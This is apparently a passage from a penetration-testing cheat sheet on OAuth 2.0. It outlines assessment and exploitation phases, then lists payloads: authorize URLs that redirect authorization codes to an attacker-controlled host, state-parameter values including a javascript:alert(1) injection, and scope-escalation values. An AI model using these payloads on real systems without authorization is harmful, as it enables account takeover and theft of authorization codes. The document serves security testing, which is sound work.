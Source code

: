 ### Phase 2: Vulnerability Assessment
1. Test OAuth flow vulnerabilities
2. Test token-based vulnerabilities
3. Test state parameter issues
4. Test advanced attacks

### Phase 3: Exploitation
1. Attempt OAuth attacks
2. Document findings
3. Test impact and scope
4. Report vulnerabilities

---

## Common Payloads

### OAuth Redirect Payloads
```
https://target.com/oauth/authorize?client_id=123&redirect_uri=https://attacker.com&response_type=code&scope=read&state=random
https://target.com/oauth/authorize?client_id=123&redirect_uri=https://target.com.attacker.com&response_type=code&scope=read&state=random
https://target.com/oauth/authorize?client_id=123&redirect_uri=https://attacker.com/target.com&response_type=code&scope=read&state=random
```

### OAuth State Parameter Payloads
```
state=
state=random
state=1234567890
state=attacker_controlled
state=javascript:alert(1)
```

### OAuth Scope Payloads
```
scope=read
scope=write
scope=admin
scope=read write admin
scope=*
scope=read,write,admin
```

---

## References
- [OAuth 2.0 Security Best Practices](https://tools.ietf.org/html/draft-ietf-oauth-security-topics)
- [OAuth 2.0 Threat Model](https://tools.ietf.org/html/rfc6819)
- [OAuth 2.0 Security Considerations](https://tools.ietf.org/html/rfc6749#section-10)
- [OAuth 2.0 for Native Apps](https://tools.ietf.org/html/rfc8252)
- [OAuth 2.0 Device Authorization Grant](https://tools.ietf.org/html/rfc8628)
